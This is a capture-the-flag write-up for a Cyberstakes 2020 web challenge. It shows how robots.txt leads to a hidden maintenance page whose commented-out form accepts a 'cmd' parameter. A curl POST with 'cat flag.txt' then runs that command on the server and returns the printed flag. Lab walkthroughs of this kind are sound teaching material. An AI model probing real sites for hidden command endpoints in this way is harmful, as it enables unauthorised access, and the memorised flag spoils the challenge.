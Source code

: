 
# DENIED

* **Category**: Web Security
* **Points**: 75
* **Challenge**: Sometimes websites are afraid of the terminator finding things out. http://challenge.acictf.com:27856 The flag is in flag.txt.
* **Hint #1**: How can websites keep search engines from finding private information?
* **Hint #2**: Sometimes the developers leave some comments that give you a hint about what to do...
* **Hint #3**: You can use the cat command to read files

<br />

First, lets navigate to the site in a web browser:

<br />

![site](https://github.com/eesantiago/Writeups/blob/master/cyberstakes/2020/denied/screenshots/site.JPG)

<br />

Based on the hints and the image of a robot, lets look at the robots.txt file:

```
curl http://challenge.acictf.com:27856/robots.txt

User-agent: *
Allow: /index.html
Allow: /products.html
Disallow: /maintenance_foo_bar_deadbeef_12345.html
```

<br />

Now we navigate to the disallowed page, `/maintenance_foo_bar_deadbeef_12345.html`:

<br />

![maintenance](https://github.com/eesantiago/Writeups/blob/master/cyberstakes/2020/denied/screenshots/maintenance.JPG)

<br />

So the page tells us to *run a command*.  Lets looks at the source of the page to see if their are any hints on how to do this:
```
...snip...

        <!--
            Disabled for being insecure... oops!
        <form action="/secret_maintenance_foo_543212345", method="POST">
            <input name="cmd"/>
        </form>-->

...snip...
```

<br />

Lets use `curl` to send a POST request to this insecure page with the parameter *cmd* and the value of *cat flag.txt*:
```

curl http://challenge.acictf.com:27856/secret_maintenance_foo_543212345 -X POST --form cmd='cat flag.txt'

...snip...

<h1>Maintenance</h1>
        <!--
            Disabled for being insecure... oops!
        <form action="/secret_maintenance_foo_543212345", method="POST">
            <input name="cmd"/>
        </form>-->
        <p>Result: ACI{ccdcb229da85c8d0a6a239edb19} </p>

...snip...
```

<br />

## Flag: ACI{ccdcb229da85c8d0a6a239edb19}

